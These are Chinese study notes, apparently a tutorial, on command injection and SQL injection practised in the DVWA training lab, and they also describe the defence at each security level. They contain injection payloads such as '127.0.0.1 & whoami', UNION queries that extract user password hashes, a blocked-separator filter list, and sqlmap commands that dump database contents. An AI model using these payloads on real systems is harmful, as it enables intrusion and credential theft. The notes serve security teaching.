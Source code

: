### 2.1 常见网站漏洞

SQL注入

命令执行

文件上传

### 2.2 漏洞靶场DVWA搭建

安装PhpStudy

下载DVWA源代码

### 2.3 命令执行漏洞

```shell
cmd1 | cmd2 # 无论cmd1是否执行成功，cmd2将被执行
cmd1 ; cmd2 # 无论cmd1是否执行成功，cmd2将被执行
cmd1 & cmd2 # 无论cmd1是否执行成功，cmd2将被执行
cmd1 || cmd2 # cmd1执行失败时，cmd2将被执行
cmd1 && cmd2 # cmd1执行成功时，cmd2将被执行
```

### 2.4 DVMA防御low漏洞

```shell
127.0.0.1 & whoami
```

防御命令执行最直接的方法，就是过滤命令连接符（将符号替换成空，或者遇到这些符号就停止运行）

渗透测试解决方法

+ 白盒测试：能看到源码，查看源码过滤机制

+ 黑盒测试：看不到源码，依次测试常用命令连接符

### 2.5 DVMA防御medium漏洞

拦截’&&‘和';'

### 2.6 DVMA防御high漏洞

拦截全部命令连接符

```shell
'&',';','| ','-','$','(',')','`','||'
```

注意：’|’未屏蔽（不带空格）

### 2.7 DVMA防御impossible漏洞

[![pC28C80.png](https://s1.ax1x.com/2023/07/09/pC28C80.png)](https://imgse.com/i/pC28C80)

+ stripslashes去除'\'

+ explode把输入数据按'.'分开

+ 分别判断四个部分是不是数字

+ 再用'.'把四个数字拼起来

### 2.8 SQL注入漏洞

改变原有SQL语句

**DVWA SQL injection low：**

```sql
SELECT first_name,last_name FROM users WHERE user_id='$id';
```

输入1' order by 1#不报错

输入1' order by 2#不报错

输入1' order by 3#报错，说明数据库共有2列

输入1' union select user(),database()#可以获取当前连接的用户和数据库名

输入

```sql
1\' union select table_name,table_schema from information_schema.tables 
where table_schema='dvwa'#
```

查询数据库中其他表

输入

```sql
1' union select user,password from users#
```

![](C:\Users\q1884\AppData\Roaming\marktext\images\2023-07-10-17-47-28-image.png)

可以查看到用户名和密码的哈希值，可以使用其他工具破解哈希值

### 2.9 SQLmap自动化SQL注入

1. 使用python运行sqlmap.py

2. 安装kali，直接输入sqlmap执行

查询所有数据库

```shell
python \sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit# "--cookie=PHPSESSID=4em0ch6bn42j283rth2uu77gf5; security=low" -dbs
```

![](C:\Users\q1884\AppData\Roaming\marktext\images\2023-07-10-20-33-11-image.png)

获取dvwa数据库所有表

```shell
python .\sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=4em0ch6bn42j283rth2uu77gf5; security=low" -D dvwa --tables
```

![](C:\Users\q1884\AppData\Roaming\marktext\images\2023-07-10-20-29-05-image.png)

加上--columns获取所有列

![](C:\Users\q1884\AppData\Roaming\marktext\images\2023-07-10-20-34-22-image.png)

加上--dump读取所有数据

![](C:\Users\q1884\AppData\Roaming\marktext\images\2023-07-10-20-37-02-image.png)

### 2.10 防范SQL注入

将特殊符号替换成空，或者判断用户输入SQL语句就终止执行

**DVWA medium等级：**

![](C:\Users\q1884\AppData\Roaming\marktext\images\2023-07-10-20-48-13-image.png)

如将'dvwa'#转义为\ 'dvwa\'#，则SQL注入无法执行

解决方法：在输入内容中避免特殊字符的存在

+ 将'dvwa'替换为database()（替换为函数）

+ 将'dvwa'替换为0x64767761（16进制表示）

**DVWA high等级：**

![](C:\Users\q1884\AppData\Roaming\marktext\images\2023-07-10-20-54-00-image.png)

**DVWA impossible等级：**

![](C:\Users\q1884\AppData\Roaming\marktext\images\2023-07-10-20-56-28-image.png)

+ **is_numeric** 判断是否是数字

+ **intval** 获取用户输入内容的数字，再次确认

+ **prepare** 进行预处理

+ **bindParam** 绑定输入参数并指定为整型

三次整形验证加PDO预处理可完全防范SQL注入
